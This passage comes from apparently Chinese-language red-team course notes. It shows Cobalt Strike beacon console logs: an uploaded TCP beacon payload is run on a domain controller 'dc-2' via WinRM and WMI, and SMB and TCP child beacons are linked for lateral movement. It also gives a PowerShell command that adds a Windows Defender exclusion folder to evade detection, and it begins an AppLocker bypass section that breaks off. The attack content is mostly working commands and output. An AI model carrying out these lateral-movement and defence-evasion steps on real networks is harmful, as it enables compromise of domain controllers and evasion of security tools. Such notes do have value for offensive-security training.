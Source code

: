 Started process 4312 on dc-2
beacon> link dc-2
[*] Tasked to link to \\dc-2\pipe\msagent_dc
[+] host called home, sent: 31 bytes
[+] established link to child beacon: 10.10.17.71
```

1661731130002.png



也可以用tcp beacon，同样使用wmi触发，然后connet目标端口

```
beacon> upload C:\Payloads\beacon-tcp-4444.exe
[*] Tasked beacon to upload C:\Payloads\beacon-tcp-4444.exe as beacon-tcp-4444.exe
[+] host called home, sent: 311839 bytes
beacon> remote-exec winrm dc-2 cmd /c C:\Shares\Software\beacon\beacon-tcp-4444.exe
[*] Tasked beacon to run 'cmd /c C:\Shares\Software\beacon\beacon-tcp-4444.exe' on dc-2 via WinRM
[+] host called home, sent: 339 bytes
[+] received output:
#< CLIXML
<Objs Version="1.1.0.1" xmlns="http://schemas.microsoft.com/powershell/2004/04"><Obj S="progress" RefId="0"><TN RefId="0"><T>System.Management.Automation.PSCustomObject</T><T>System.Object</T></TN><MS><I64 N="SourceId">1</I64><PR N="Record"><AV>Preparing modules for first use.</AV><AI>0</AI><Nil /><PI>-1</PI><PC>-1</PC><T>Completed</T><SR>-1</SR><SD> </SD></PR></MS></Obj><S S="Error">The system cannot find the path specified._x000D__x000A_</S><S S="Error">    + CategoryInfo          : NotSpecified: (The system cann...path specified.:String) [], RemoteException_x000D__x000A_</S><S S="Error">    + FullyQualifiedErrorId : NativeCommandError_x000D__x000A_</S><S S="Error">    + PSComputerName        : dc-2_x000D__x000A_</S><S S="Error"> _x000D__x000A_</S></Objs>
beacon> remote-exec wmi dc-2 C:\Shares\Software\beacon-tcp-4444.exe
[*] Tasked beacon to run 'C:\Shares\Software\beacon-tcp-4444.exe' on dc-2 via WMI
[+] host called home, sent: 4410 bytes
[+] received output:
CoInitializeSecurity already called. Thread token (if there is one) may not get used
[+] received output:
Started process 3464 on dc-2
beacon> connect dc-2 4444
[*] Tasked to connect to dc-2:4444
[+] host called home, sent: 15 bytes
[+] established link to child beacon: 10.10.17.71
```


1661731460113.png



## 设置自己的Exclude文件夹

```
Set-MpPreference -ExclusionPath "<path>"
```

1661731798567.png


# AppLocker Rule Bypasses

枚举applocker，教材给的例子是分析Registry.pol文件


但是如果已经有一个初始shell，那就有更简单的方法，只需要两行powershell

```